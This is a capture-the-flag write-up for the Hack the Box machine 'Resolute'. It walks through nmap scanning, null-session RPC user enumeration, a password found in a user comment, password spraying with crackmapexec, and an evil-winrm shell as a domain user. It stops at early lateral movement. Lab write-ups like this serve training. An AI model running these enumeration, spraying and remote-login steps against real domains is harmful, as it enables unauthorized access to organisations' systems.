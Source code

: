 # Hack the Box - Resolute

# Enumeration
## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.169 -T4 --min-rate 1000 -oN ports.nmap

Nmap scan report for 10.10.10.169
Host is up (0.19s latency).
Not shown: 65512 closed tcp ports (reset)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49671/tcp open  unknown
49676/tcp open  unknown
49677/tcp open  unknown
49682/tcp open  unknown
49711/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 66.74 seconds
```


```CSS
▶ nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 10.10.10.169 -oN services.nmap

Nmap scan report for 10.10.10.169
Host is up (0.18s latency).  
                                          
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-05-23 18:13:41Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)                                                        
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m32s, deviation: 4h02m30s, median: 6m31s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2023-05-23T11:13:52-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-time: 
|   date: 2023-05-23T18:13:54
|_  start_date: 2023-05-23T17:43:07
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.44 seconds
```

---

## RPC Client
  - Null Session Authentication
```CSS
▶ rpcclient -U "" -N 10.10.10.169
```

  - Enumerate Domain Users
```CSS
rpcclient $> enumdomusers
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/d4596127-4b1b-4957-ac1b-c0e30d6cd312)

  - Query Users Info
```CSS
rpcclient $> querydispinfo
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/ec7322f6-3ebb-4fb8-8691-c8c92af2dc0e)
The above command return brief information about all the users. An interesting comment for `RID 0x457` is also found.
```CSS
Credentials - marko:Welcome123!
```

  - Query Single User's Info
```CSS
rpcclient $> queryuser 0x1f4
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/56612aa0-fa48-41b2-ad95-e6cd47bf97a5)

---

## SMB
  - Attempt to login with found credentials.
```CSS
▶ crackmapexec smb 10.10.10.169 -u marco -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/a8ca9538-8a8c-45f6-8263-89df0d2eaeb9)

### Password Spray
  - Create a file containing the list of users found via RPC.
  - Authenticate as any user using the password default password found.
```CSS
▶ vim users.txt

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5] 
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]   
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
```
Use within vim to extract the usernames:`%s/user:\[\(.*\)\] rid:\[.*\]/\1/g`

  - Password Spray
```CSS
▶ crackmapexec smb 10.10.10.169 -u users.txt -p 'Welcome123!' --continue-on-success
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/8f91e8ba-959b-47e8-bf89-3f0a19668ac7)

```CSS
Credentials- melanie:Welcome123!
```

---

# FootHold
## Evil-WinRM Shell
```CSS
▶ evil-winrm -i 10.10.10.169 -P 5985 -u melanie -p 'Welcome123!'
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/e36af976-1ab7-4e1d-80f3-4512e6388fd6)

# Lateral Movement
```CSS
*Evil-WinRM* PS C:\Users\melanie\Documents> cd C:\
*Evil-WinRM* PS C:\> dir -force
```
![image](https://github.com/0xhardyboy/Hack-the-Box/assets/83878909/5685fdb2-0738-4a96-93c2-5e87c98c70d9)
